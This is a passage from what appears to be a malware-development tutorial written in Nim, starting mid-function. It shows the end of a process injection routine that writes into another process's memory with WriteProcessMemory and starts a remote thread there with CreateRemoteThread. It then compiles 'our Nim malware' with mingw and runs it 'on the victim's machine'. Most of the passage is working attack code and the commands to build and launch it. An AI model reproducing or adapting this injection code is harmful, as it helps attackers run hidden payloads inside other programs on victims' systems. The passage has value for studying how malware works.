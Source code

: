 ```nim
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

### demo 2

Let's go to look everything in action. Compile our Nim malware:    

```bash
nim c -d:mingw --cpu:amd64 hack2.nim
```

![img](./img/2024-06-01_12-53.png)    

Then, run it on the victim's machine:     

```powershell
.\hack2.exe
```
